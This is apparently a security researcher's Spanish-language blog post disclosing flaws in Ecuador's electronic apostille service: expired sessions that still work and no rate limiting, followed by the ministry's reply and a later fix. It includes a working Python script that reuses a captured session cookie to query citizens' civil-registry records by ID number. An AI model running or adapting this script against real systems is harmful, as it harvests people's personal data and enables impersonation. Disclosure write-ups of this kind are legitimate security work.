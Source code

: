 ```yaml
---
pubDatetime: 2025-03-08
title: Atacando el Sistema de Apostillas | Cancilleria.gob.ec
description: Explotando fallas en el sistema de apostillas del Ecuador.
featured: false
author: eserror
tags:
  - cancilleria
  - vulnerabilidad
---
```


Por alguna razón, hace unos meses recibí un correo de parte del Ministerio de Relaciones Exteriores y Movilidad Humana del Ecuador. Este correo anunciaba la disponibilidad de un [nuevo servicio](https://www.cancilleria.gob.ec/2024/07/15/sistema-de-apostillas-y-legalizaciones-electronicas-del-ecuador/) público, el cual permitía apostillar documentos electrónicos de forma oficial.

El día de hoy, he decido escribir un artículo donde exploto unas vulnerabilidades que he encontrado mientras navegaba por el sitio.

## Authentication Bypass

La aplicación falla al comprobar la validez de una cookie/sesión previamente expirada, esto permite a un atacante reusar la sesión y realizar acciones en nombre del usuario.

Es decir, si un atacante consigue robar una sesión de usuario, él podrá realizar acciones en la cuenta o sesión de usuario como si tuviera las credenciales o autorización para realizar dichas acciones.

En la imagen de abajo, se puede ver cómo la aplicación reacciona al recibir una solicitud sin una cookie en de autenticación en las cabeceras HTTP.

<img src="/src/assets/images/Screenshot 2024-12-24 at 16.32.12.png">

En la siguiente imágen, se muestra la respuesta de la aplicación ante una solicitud HTTP que incluye una cookie ya expirada.

<img src="/src/assets/images/Screenshot 2024-12-24 at 16.41.29.png">

En la imágen de arriba, se puede ver cómo claramente la aplicación falla al mostrar información sensible de otro usuario, mientras se hace uso de una sesion invalida. A pesar de existir una redirección, que idealmente debe llevar al usuario a volver a iniciar sesión, la aplicación entrega información de cualquier usuario para el cual se conozca su cédula, sin validar el tiempo de vida de la sesion.

## Lack of Rate Limiting

La aplicación no pone un límite a la cantidad de solicitudes que un usuario puede realizar, lo cuál permite a un atacante realizar ataques de fuerza bruta para conseguir información privada de un usuario. La explotación de estás vulnerabilidades implica que un atacante puede realizar la suplantación de identidades de usuario e incluso causar interrupciones en el servicio.

El siguiente código pretende explotar dos vulnerabilidades, una falla en el mecanismo de autenticación, y la falta de implementación de un mecanismos que eviten solicitudes reiteradas.

```python
#!/bin/python3

import requests
import urllib3
import re
import json

urllib3.disable_warnings()
s = requests.Session();


def brute_force():

## Es necesario obtener una cookie expirada o valida.

headers = {

"Cookie": "ASP.NET_SessionId=mldtgtkittjfy31eoz1ekp4s; .ASPXAUTH=2F1537AFB2BCEC54CD9429AF1F963DBEE3282C7EA685EBA4A6E9E62D485A8A98C4AA3D35D4261681186D8E96386A74613753B4FB2A1B20D04B2BD18550AF732AA2D460C7BEF5B9661CF9B5AEB386F802B5E4698B6FD42011F855E4F6018DD7E133FA4A1255FAF637B711D544DFF0698DFC6C5CC2408D21CEB023F453085EF9BF63BA1065C99A8FF992B23C1FE0CA3B5AF28ED6050A425CE12A532E123A13E9AC3D4CC5BD1EF63EAE6ED38E7B77E0E32A5A70E3A71FDE5D75C4A7D4E70E8132CD",
"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36",
"X-Requested-With": "XMLHttpRequest",
"Accept-Encoding": "gzip, deflate, br"
}

# Reemplazar por las cedulas que desees consultar

cedulas = ('CEDULA0','CEDULA1', 'CEDULA2','CEDULA3', 'CEDULA4')

for cedula in cedulas:

data = {"numeroDocumento": cedula}
respuesta = s.get('https://eapostillas.cancilleria.gob.ec/Solicitud/ConsultarDatosRegistroCivil?numeroDocumento', data=data, headers=headers, verify=False, allow_redirects=False)

texto_html = respuesta.text
patron = r'(?s)\s*(\{.*\})'
match = re.search(patron, texto_html)
json_data = match.group(1)
data = json.loads(json_data)

print(data['resultado']['NombresCompletos'])


if __name__ == "__main__":

brute_force()
```

## Respuesta de la Cancilleria

Después de varias semanas de espera, por fin obtuve una respuesta, sin embargo esta fue muy decepcionante.

Debo aclarar que, para entender el problema que expongo, no es necesario conocimientos avanzados en sistemas informáticos. Así que, tengo que admitir que no esperaba una respuesta como esta, mucho menos cuando solemos asumir que dos cabezas piensan mejor que una.

El siguiente informe pretende dar una respuesta sobre las vulnerabilidades reportadas, sin embargo, ustedes pueden juzgar por si mismos.

<iframe src="https://drive.google.com/file/d/1lrfjMORi2kzgDZKoa2Bj39AtHxN9UnUO/preview" width="750" height="650" frameborder="0"></iframe>

## "The Fix"

Después de haber leido la respuesta a mi reporte de vulnerabilidades, haber invertido tiempo y esfuerzo en este asunto, naturalmente uno puede llegar a la conclusion que ha sido un esfuerzo en vano.

Pero no es así, ya que el día de hoy revisando nuevamente el serivicio de apostillas, he descubierto un pequeño cambio. Se ha agregado el parámetro token1, el cual asumo fue implementado para evitar reiteradas consultas al servicio.

Al mismo tiempo, se puede observar que la aplicación valida efectivamente si la sesión de un usuario ha expirado, y de acuerdo a esto, decide si mostrar la información solicitada o no.

<img src="/src/assets/images/Screenshot 2025-03-08 at 01.09.48.png">

A pesar de que el proceso de remediación no fue tan fluido como esperaba, y muchos inconvenientes en el camino, aún así vale la pena aportar un granito de arena a la seguridad del país. 🫶
